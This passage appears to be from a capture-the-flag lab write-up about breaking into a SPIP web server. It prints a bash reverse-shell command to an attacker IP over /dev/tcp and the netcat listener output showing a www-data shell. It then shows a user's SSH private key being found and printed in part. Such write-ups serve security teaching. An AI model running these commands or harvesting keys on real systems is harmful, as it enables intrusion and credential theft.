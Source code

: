 ```

![image](https://github.com/user-attachments/assets/a949bd7d-2bf4-426c-a726-76072a9081f6)



Next is getting a reverse shell on the box and the command i used was

```
bash -c "bash -i >& /dev/tcp/10.8.84.177/9001 0>&1"
```




After setting up a netcat listener on port 9001 and we get a reverse shell



![image](https://github.com/user-attachments/assets/a563c167-31f6-4adb-b566-cd989a0879bf)



```

nc -nvlp 9001                                                      
listening on [any] 9001 ...                                                                                                         
connect to [10.8.84.177] from (UNKNOWN) [10.10.163.99] 58864                                                                        
bash: cannot set terminal process group (1): Inappropriate ioctl for device                                                         
bash: no job control in this shell                                                                                                  
www-data@41c976e507f8:/home/think/spip/spip$
```



We have a shell as the www-data user on the server and we seem to have landed on a docker container. Doing some manual enumeration we discover a SSH private key in think’s home directory and we have read access to the private key


![image](https://github.com/user-attachments/assets/c2dff48d-d254-48d7-9610-408a223b381d)



```
ls .ssh                                             
authorized_keys                                                                                                                                                                                                    
id_rsa                                                                                                                                                                                                             
id_rsa.pub                                          
cat .ssh/id_rsa                                                                                          
-----BEGIN OPENSSH PRIVATE KEY-----                                                                      
b3BlbnNzaC1rZXktdjEAAAAABG5vbmUAAAAEbm9uZQAAAAAAAAABAAABlwAAAAdzc2gtcn                                   
NhAAAAAwEAAQAAAYEAxPvc9pijpUJA4olyvkW0ryYASBpdmBasOEls6ORw7FMgjPW86tDK                                   
uIXyZneBIUarJiZh8VzFqmKRYcioDwlJzq+9/2ipQHTVzNjxxg18wWvF0WnK2lI5TQ7QXc                                   
OY8+1CUVX67y4UXrKASf8l7lPKIED24bXjkDBkVrCMHwScQbg/nIIFxyi262JoJTjh9Jgx                                   
SBjaDOELBBxydv78YMN9dyafImAXYX96H5k+8vC8/I3bkwiCnhuKKJ11TV4b8lMsbrgqbY
[...]
